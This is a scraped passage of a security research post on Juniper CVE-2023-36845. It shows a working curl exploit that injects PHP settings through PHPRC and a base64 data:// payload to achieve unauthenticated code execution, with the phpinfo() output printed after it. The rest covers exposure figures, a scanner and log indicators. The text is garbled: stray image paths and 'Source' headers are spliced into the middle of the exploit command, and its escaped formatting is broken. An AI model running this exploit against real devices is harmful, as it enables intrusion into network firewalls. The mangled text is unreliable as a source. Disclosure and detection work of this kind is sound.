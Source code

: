 \`allow\_url\_include\`, we can use any \[protocol wrapper\](https://www.php.net/manual/en/wrappers.php) with \`auto\_prepend\_file\`. The obvious choice is \`data://\` to provide the “second file” inline. Below is an example of this attack that executes \`\` which is embedded in \`data://\`:\\n\\n\`\`\`sh\\n$ curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary 

#### [Source](https://vulncheck.com/blog/juniper-cve-2023-36845)

<br/>
---
allow\_url\_include=1\\nauto\_prepend\_file="data://text/plain;base64,PD8KICAgcGhwaW5mbygpOwo/Pg=="'\\n\\n\\n\\nbody {background-color: #ffffff; color: #000000;}\\nbody, td, th, h1, h2 {font-family: sans-serif;}\\npre {margin: 0px; font-family: monospace;}\\na:link {color: #000099; text-decoration: none; background-color: #ffffff;}\\na:hover {text-decoration: underline;}\\ntable {border-collapse: collapse;}\\n.center {text-align: center;}\\n.center table { margin-left: auto; margin-right: auto; text-align: left;}\\n.center th { text-align: center !important; }\\ntd, th { border: 1px solid #000000; font-size: 75%; vertical-align: baseline;}\\nh1 {font-size: 150%;}\\nh2 {font-size: 125%;}\\n.p {text-align: left;}\\n.e {background-color: #ccccff; font-weight: bold; color: #000000;}\\n.h {background-color: #9999cc; font-weight: bold; color: #000000;}\\n.v {background-color: #cccccc; color: #000000;}\\n.vr {background-color: #cccccc; text-align: right; color: #000000;}\\nimg {float: right; border: 0px;}\\nhr {width: 600px; background-color: #cccccc; border: 0px; height: 1px; color: #000000;}\\n\\nphpinfo()\\n

\\n\`\`\`\\n\\nJust like that, by only using CVE-2023-36845, we’ve achieved unauthenticated and remote code execution without actually dropping a file on disk. Our private exploit establishes a reverse shell, but that’s quite trivial once you’ve reached this point.\\n\\n## Real World Impact\\n\\n\[Shodan\](https://www.shodan.io/search?query=title%3A%22Juniper%22+http.favicon.hash%3A2141724739) shows approximately 15,000 Juniper devices with internet-facing web interfaces (caution has to be taken when crafting this query because there are about the same amount of honeypots):\\n\\n!\[Juniper J-Web on Shodan\](/blog/juniper-cve-2023-36845/shodan-jweb.png){:width="100%"}\\n\\nWe wrote a scanner that generates an error on affected systems by setting the LD\_PRELOAD environment variable. We’ve made it available on \[GitHub\](https://github.com/vulncheck-oss/cve-2023-36845-scanner). On a representative sample size (n=3000), we found that 79% of the responding targets were unpatched. This is particularly troublesome since both \[Shadowserver\](https://x.com/Shadowserver/status/1696512418036486246) and GreyNoise have seen attackers probing the watchTowr endpoint (webauth\_operation.php).\\n\\n!\[Juniper attacker on Greynoise\](/blog/juniper-cve-2023-36845/greynoise-webauth-operation.png){:width="100%"}\\n\\nFirewalls are interesting targets to APT as they help bridge into the protected network and can serve as useful hosts for C2 infrastructure. Anyone who has an unpatched Juniper firewall should examine it for signs of compromise. The \`httpd.log\` is particularly useful as it may contain tidbits like:\\n\\n> httpd: 2: POST /?PHPRC=/dev/fd/0 HTTP/1.1\\n\\nIt’s worth noting that attackers can get around including variables in the HTTP header; we only did that here for clarity. For example, the information leak works just fine using multipart form data:\\n\\n\`\`\`sh\\n$ curl "http://10.12.72.1/" -F 

#### [Source](https://vulncheck.com/blog/juniper-cve-2023-36845)

<br/>
---